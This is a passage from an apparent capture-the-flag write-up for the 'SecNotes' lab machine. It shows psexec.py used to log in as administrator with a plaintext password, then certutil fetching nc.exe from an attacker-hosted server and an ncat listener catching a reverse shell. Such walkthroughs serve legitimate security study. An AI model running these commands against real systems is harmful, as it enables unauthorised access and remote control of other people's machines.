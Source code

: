Using `psexec.py` privilege escalation got successful. 
```bash
$ psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.218.160
```
![alt](/assets/Images_P3_SecNotes/SecNote_12.png)

----
----

#### Post Exploitation

For better stable shell, transferring `nc.exe` and getting reverse shell back from `impacket` shell session to `ncat`.
```bash
# From Windows Machine
> certutil.exe -urlcache -f http://10.10.17.81:8000/nc.exe nc.exe

# From Attacker Machine
$ rlwrap ncat -lvnp 7777
```

![alt](/assets/Images_P3_SecNotes/SecNote_13.png)
